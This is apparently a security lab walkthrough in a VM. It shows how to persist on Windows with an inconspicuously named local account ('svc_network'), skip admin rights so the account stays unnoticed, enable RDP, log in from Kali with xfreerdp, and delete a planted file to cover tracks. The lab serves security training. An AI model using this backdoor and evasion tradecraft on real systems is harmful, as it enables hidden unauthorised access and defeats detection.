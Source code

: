 # Persist On A Windows Machine With A Malicious User Account
Creating a malicious local account is a simple way to install a backdoor, often going unnoticed in poorly managed networks. Even if detected, it may remain due to concerns over breaking functionality. Skilled attackers may avoid giving the account admin rights, opting instead to plant a privilege escalation vulnerability for future use

## Tasks
- Create a user with an inconspicuous name that would seamlessly blend into an organization in a VM
- Initiate an RDP connection to the target system from a separate machine, utilizing the malicious account's credentials to showcase successful access
- Navigate the system's directories to emphasize the subtle nature of the malicious account's presence and the potential challenges in detection
- Generate a dummy file in a sensitive directory to simulate a security breach, demonstrating how a malicious actor might misuse this access for unauthorized file manipulation
- Show how the malicious account can be used to cover tracks, such as deleting the dummy file

## Solutions With Scripts
1. Open PowerShell as Administrator in Windows 10 VM
2. Add a user with a non-suspicious name such as `svc_network` or `backup_admin`
   ```
   net user svc_network password123 /add
   ```
3. Add the user to a specific group like "Users". Avoid giving it administrative privileges to make the account less suspicious
   ```
   net localgroup Users svc_network add
   ```
4. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Control Panel > System and Security > System. Click on Remote Settings from the left panel. Under the Remote Desktop section, select Allow connections from computers running any version of Remote Desktop
5. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
6. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
   ```
   sudo apt update
   sudo apt install freerdp2-x11
   ```
7. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
   ```
   sudo xfreerdp /u:svc_network /p:password123 /v:192.168.1.21 /dynamic-resolution /cert:ignore /sec:tls
   ```
8. To simulate a security breach, create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp. Run the following command
   ```
   echo "Sensitive data" > C:\Windows\Temp\dummymaliciousfile.txt
   ```
9. To cover up the tracks, delete the dummy file
   ```
   del C:\Windows\Temp\dummymaliciousfile.txt
   ```
10. Close the RDP connection by logging out of the RDP session from Kali Linux by pressing Ctrl+C to end the xfreerdp session
